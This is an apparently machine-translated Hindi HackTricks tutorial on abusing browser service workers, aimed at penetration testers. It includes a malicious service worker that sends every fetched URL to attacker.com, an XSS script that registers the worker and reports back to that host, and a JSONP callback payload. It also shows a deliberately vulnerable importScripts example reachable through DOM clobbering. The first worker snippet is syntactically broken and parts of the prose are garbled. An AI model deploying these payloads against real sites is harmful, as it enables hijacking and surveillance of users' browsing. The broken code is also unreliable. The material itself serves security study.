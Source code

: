 # वेब सर्विस वर्कर्स का दुरुपयोग

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ हैकट्रिक्स क्लाउड ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 ट्विटर 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ ट्विच 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 यूट्यूब 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापन देखना चाहते हैं**? या आप **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटी**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक पीएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **ट्विटर** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** **अनुसरण** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**हैकट्रिक्स रेपो**](https://github.com/carlospolop/hacktricks) **और** [**हैकट्रिक्स-क्लाउड रेपो**](https://github.com/carlospolop/hacktricks-cloud) **में।**

</details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

वे सुरक्षा विकल्प खोजें जो सबसे अधिक मायने रखते हैं ताकि आप उन्हें तेजी से ठीक कर सकें। इंट्रूडर आपकी हमले की सतह का ट्रैक करता है, प्रोएक्टिव धमकी स्कैन चलाता है, आपके पूरे तकनीकी स्टैक, एपीआई से वेब ऐप्स और क्लाउड सिस्टम तक मुद्दे खोजता है। [**इसे मुफ्त में प्रयास करें**](https://www.intruder.io/?utm_source=referral\&utm_campaign=hacktricks) आज।

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## मूल जानकारी

**सर्विस वर्कर** एक स्क्रिप्ट है जो आपके ब्राउज़र द्वारा पृष्ठ से अलग, वेब पृष्ठ या उपयोगकर्ता अंतर्क्रिया की आवश्यकता नहीं है, जिससे **ऑफलाइन और पृष्ठ प्रसंस्करण** क्षमताएँ बढ़ाई जा सकती हैं। सर्विस वर्कर्स पर विस्तृत जानकारी [यहाँ](https://developers.google.com/web/fundamentals/primers/service-workers) मिल सकती है। एक वेब डोमेन के भीतर सर्विस वर्कर्स का दुरुपयोग करके हमलावर विकल्पों को प्राप्त कर सकते हैं और उस डोमेन के सभी पृष्ठों के साथ पीड़ित के इंटरैक्शन पर नियंत्रण प्राप्त कर सकते हैं।

### मौजूदा सर्विस वर्कर्स की जांच

मौजूदा सर्विस वर्कर्स की जांच **डेवलपर टूल्स** में **एप्लिकेशन** टैब के **सर्विस वर्कर्स** खंड में की जा सकती है। एक और तरीका है [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) पर जाकर एक अधिक विस्तृत दृश्य प्राप्त करना।

### पुश अधिसूचनाएं

**पुश अधिसूचना अनुमतियाँ** सीधे रूप से **सर्विस वर्कर** की क्षमता पर प्रभाव डालती हैं क्योंकि यह सर्विस वर्कर की संभावना को सीधे उपयोगकर्ता अंतर्क्रिया के बिना सर्वर के साथ संवाद करने की क्षमता पर प्रभाव डालती है। यदि अनुमतियाँ निरस्त की जाती हैं, तो यह सर्विस वर्कर की संभावना को एक निरंतर खतरा प्रस्तुत करने में सीमित करता है। उल्टे, अनुमतियाँ प्रदान करने से सुरक्षा जोखिम बढ़ जाते हैं क्योंकि यह संभावित दुरुपयोगों को प्राप्त करने और क्रियान्वित करने की क्षमता को सक्षम करता है।

## हमला एक सर्विस वर्कर बनाना

इस विकल्प को दुरुपयोग करने के लिए आपको निम्नलिखित की खोज करनी होगी:

* **सर्वर पर विभिन्न JS फ़ाइलें अपलोड करने** का एक तरीका और एक **XSS जिससे अपलोड की गई JS फ़ाइल का सर्विस वर्कर लोड हो**।
* **एक वंलरेबल JSONP अनुरोध** जहां आप **आउटपुट को (विभिन्न JS कोड के साथ) मानिपुलेट कर सकते हैं** और एक **XSS** जिससे **JSONP को एक पेलोड के साथ लोड करने** के लिए **एक दुरुपयोग जोड़ें** जो **एक दुरुपयोगी सर्विस वर्कर लोड करेगा**।

निम्नलिखित उदाहरण में मैं एक कोड प्रस्तुत करने जा रहा हूँ जो एक नया सर्विस वर्कर **रजिस्टर करेगा** जो `fetch` घटना को सुनेगा और **हमलावर के सर्वर को प्रत्येक फेच की URL भेजेगा** (यह कोड आपको **सर्वर पर अपलोड** करने की आवश्यकता होगी या एक **वंलरेबल JSONP** प्रतिक्रिया के माध्यम से लोड करने की):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
और यह कोड है जो **कर्मी को पंजीकृत** करेगा (जिसे आपको **XSS** का दुरुपयोग करके कार्रवाई करनी चाहिए)। इस मामले में एक **GET** अनुरोध **हमलावर** सर्वर पर भेजा जाएगा जो सूचित करेगा कि सेवा कर्मी का पंजीकरण सफल रहा या नहीं:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
एक वंलरेबल JSONP एंडपॉइंट का दुरुपयोग करने के मामले में आपको मान `var sw` के अंदर डालना चाहिए। उदाहरण के लिए:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
एक **C2** है जो **सेवा कर्मचारियों का शोषण** करने के लिए समर्पित है जिसे [**Shadow Workers**](https://shadow-workers.github.io) कहा जाता है जो इन दुरुपयोगों का उपयोग करने में बहुत उपयोगी होगा।

**24-घंटे कैश निर्देशिका** एक दुर्भाग्यपूर्ण या संक्रमित **सेवा कर्मचारी (SW)** का जीवन सीमित करती है अधिकतम 24 घंटे एक एक्सएसएस दुरुपयोग सुधार के बाद, यदि ऑनलाइन ग्राहक स्थिति मानी जाए। दुरुपयोग को कम करने के लिए, साइट ऑपरेटर SW स्क्रिप्ट का समय-से-जीवन (TTL) कम कर सकते हैं। डेवलपरों को त्वरित निष्क्रिय करने के लिए एक [**सेवा कर्मचारी किल-स्विच**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) बनाने की सलाह दी जाती है।

## DOM क्लॉबरिंग के माध्यम से SW में `importScripts` का दुरुपयोग

सेवा कर्मचारी से बुलाई गई **`importScripts`** फ़ंक्शन **एक विभिन्न डोमेन से स्क्रिप्ट आयात कर सकती है**। यदि इस फ़ंक्शन को एक **पैरामीटर के साथ बुलाया जाता है जिसे एक हमलावार संशोधित कर सकता है** तो वह अपने डोमेन से एक JS स्क्रिप्ट आयात कर सकेगा और एक्सएसएस प्राप्त कर सकेगा।

**यह यहाँ भी सीएसपी संरक्षण को उल्लंघित करता है।**

**उदाहरण विकल्प दुर्भाग्यपूर्ण कोड:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### DOM Clobbering के साथ

DOM Clobbering के बारे में अधिक जानकारी के लिए जांचें:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

अगर SW जिसे **`importScripts`** को कॉल करने के लिए उपयोग किया जा रहा है, उस URL/domain को **एक HTML element के अंदर** है, तो **DOM Clobbering के माध्यम से इसे संशोधित करना संभव** है ताकि SW **अपने खुद के डोमेन से एक स्क्रिप्ट लोड कर सके**।

इसका उदाहरण के लिए संदर्भ लिंक देखें।

## संदर्भ

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

वो vulnerabilities खोजें जो सबसे अधिक मायने रखती हैं ताकि आप उन्हें तेजी से ठीक कर सकें। Intruder आपके आटैक सरफेस को ट्रैक करता है, proactive धमाकेदार स्कैन चलाता है, APIs से वेब ऐप्स और क्लाउड सिस्टम तक के इश्यूज़ खोजता है। [**यह नि: शुल्क ट्राय करें**](https://www.intruder.io/?utm_source=referral\&utm_campaign=hacktricks) आज।

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप चाहते हैं कि आपकी **कंपनी को हैकट्रिक्स में विज्ञापित** किया जाए? या क्या आप **PEASS के नवीनतम संस्करण का उपयोग करना चाहते हैं या हैकट्रिक्स को पीडीएफ में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, **The PEASS Family** की खोज करें
* [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** पर **फॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें PRs सबमिट करके** [**hacktricks रेपो**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud रेपो**](https://github.com/carlospolop/hacktricks-cloud) **को**।

</details>
